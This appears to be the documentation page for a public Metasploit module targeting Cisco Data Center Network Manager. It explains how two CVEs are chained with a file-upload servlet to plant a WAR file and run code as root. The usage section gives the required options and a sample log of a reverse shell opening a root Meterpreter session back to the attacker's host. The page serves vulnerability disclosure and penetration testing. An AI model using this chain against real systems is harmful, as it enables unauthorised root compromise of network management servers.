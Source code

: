 ## Introduction

Cisco Data Center Network Manager exposes a file upload servlet (FileUploadServlet) at /fm/fileUpload.
An authenticated user can abuse this servlet to upload a WAR to the Apache Tomcat webapps
directory and achieve remote code execution as root.

This module exploits two other vulnerabilities, CVE-2019-1619 for authentication bypass on
versions 10.4(2) and below, and CVE-2019-1622 (information disclosure) to obtain the correct
directory for the WAR file upload.

The module was tested on the DCNM Linux virtual appliance 10.4(2), 11.0(1) and 11.1(1), and should
work on a few versions below 10.4(2). Only version 11.0(1) requires authentication to exploit
(see References to understand why).


## Author and discoverer

Pedro Ribeiro (pedrib@gmail.com) from Agile Information Security


## References

https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190626-dcnm-bypass
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190626-dcnm-codex
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190626-dcnm-codex
https://raw.githubusercontent.com/pedrib/PoC/master/exploits/metasploit/cisco_dcnm_upload_2019.rb
https://seclists.org/fulldisclosure/2019/Jul/7


## Usage

Setup RHOST, LHOST, LPORT, run it and sit back!

```
[*] Started reverse TCP handler on 10.75.1.1:4444
[+] 10.75.1.40:443 - Detected DCNM 11.1(1)
[*] 10.75.1.40:443 - No authentication required, ready to exploit!
[+] 10.75.1.40:443 - Obtain WAR path from logs: /usr/local/cisco/dcm/wildfly-10.1.0.Final/standalone/sandeployments
[*] 10.75.1.40:443 - Uploading payload...
[+] 10.75.1.40:443 - WAR uploaded, waiting a few seconds for deployment...
[*] 10.75.1.40:443 - Executing payload...
[*] Sending stage (53867 bytes) to 10.75.1.40
[*] Meterpreter session 1 opened (10.75.1.1:4444 -> 10.75.1.40:60592) at 2019-08-29 12:41:49 +0700

meterpreter > getuid
Server username: root
meterpreter > exit
[*] Shutting down Meterpreter...
[*] 10.75.1.40 - Meterpreter session 1 closed.  Reason: User exit
```
